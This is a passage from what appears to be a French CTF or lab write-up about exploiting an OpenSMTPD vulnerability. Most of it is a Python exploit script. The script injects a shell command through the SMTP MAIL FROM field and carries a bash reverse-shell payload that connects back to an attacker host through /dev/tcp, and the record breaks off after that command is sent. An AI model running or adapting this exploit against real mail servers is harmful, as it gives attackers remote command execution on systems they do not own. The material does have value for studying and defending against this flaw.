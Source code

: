 Après quelques recherches, j'ai trouvé une [vulnérabilité OpenSMTPD](https://blog.firosolutions.com/exploits/opensmtpd-remote-vulnerability/). 😃

<div id='exploit_smtp'/>
# Exploitation OpenSMTPD (Source code review)

Si la partie locale d'une adresse mail n'est pas valide et ne comporte pas de nom de domaine, un attaquant peut transmettre un reverse shell et ignorer les contrôles **MAILADDR_ALLOWED** et **MAILADDR_ESCAPE** grâce à cette faille.

Nous allons modifier le code afin d'exécuter un reverse shell :

```py
import socket, time
import sys

HOST = input('RHOST : ')
PORT = int(input('RPORT : '))
LHOST = input('LHOST : ')
LPORT = int(input('LPORT : '))
pld_rev_shell = 'bash -c "exec bash -i &> /dev/tcp/{}/{} <&1"'.format(LHOST, LPORT)
s = None

payload = b"""\r\n
#0\r\n
#1\r\n
#2\r\n
#3\r\n
#4\r\n
#5\r\n
#6\r\n
#7\r\n
#8\r\n
#9\r\n
#a\r\n
#b\r\n 
#c\r\n
#d\r\n
""" + pld_rev_shell.encode() + b"""
.
"""
for res in socket.getaddrinfo(HOST, PORT, socket.AF_UNSPEC, socket.SOCK_STREAM):
    af, socktype, proto, canonname, sa = res
    try:
        s = socket.socket(af, socktype, proto)
    except OSError as msg:
        s = None
        continue
    try:
        s.connect(sa)
    except OSError as msg:
        s.close()
        s = None
        continue
    break
if s is None:
    print('could not open socket')
    sys.exit(1)
with s:
	data = s.recv(1024)
	time.sleep(1)
	s.send(b"helo test.com\r\n")
	data = s.recv(1024)
	s.send(b"MAIL FROM:<;for i in 0 1 2 3 4 5 6 7 8 9 a b c d;do read r;done;sh;exit 0;>\r\n")
```